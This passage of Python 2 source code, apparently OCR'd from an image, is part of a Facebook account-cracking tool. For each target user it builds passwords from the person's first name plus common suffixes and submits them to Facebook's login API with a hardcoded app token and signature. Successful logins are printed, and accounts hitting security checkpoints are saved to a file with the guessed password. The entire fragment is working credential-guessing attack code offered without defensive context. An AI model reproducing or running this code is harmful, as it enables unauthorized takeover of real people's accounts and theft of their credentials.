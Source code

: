 					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name']+'Ali123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '987654'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

									cek = open("out/checkpoint.txt", "a")

									cek.write(user+"|"+pass3+"\n")

									cek.close()
